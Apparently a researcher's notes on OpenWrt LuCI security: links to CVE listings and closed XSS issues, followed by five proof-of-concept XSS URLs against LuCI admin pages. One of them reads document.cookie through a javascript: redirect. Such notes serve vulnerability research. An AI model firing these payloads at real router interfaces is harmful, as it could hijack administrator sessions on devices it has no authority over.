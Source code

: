 ### past vuln

https://www.cvedetails.com/vulnerability-list/vendor_id-18578/Openwrt.html

https://openwrt.org/docs/guide-developer/security



### github issue
https://github.com/openwrt/luci/issues?q=is%3Aissue+xss+is%3Aclosed

https://github.com/openwrt/luci/issues?q=is%3Aissue+is%3Aclosed+security


``` html
http://xxxx/cgi-bin/luci/admin/;%3B<%2Fscript><script>alert%289232%29<%2Fscript>
http://192.168.56.2/cgi-bin/luci/admin/filebrowser/boot/grub%2500">`-alert(1)</script><script>` 
http://192.168.56.2/cgi-bin/luci/admin/filebrowser/boot/grub?field=')}}%0aalert(1)%0afunction%20a(path,input){if%20(true){//
http://192.168.56.2/cgi-bin/luci/admin/filebrowser/boot/grub?field=">`-alert`1`]]></script><svg><script>`<![CDATA[
http://ip-or-hostname/cgi-bin/luci/admin/uci/changes?redir=javascript:alert(document.cookie)

```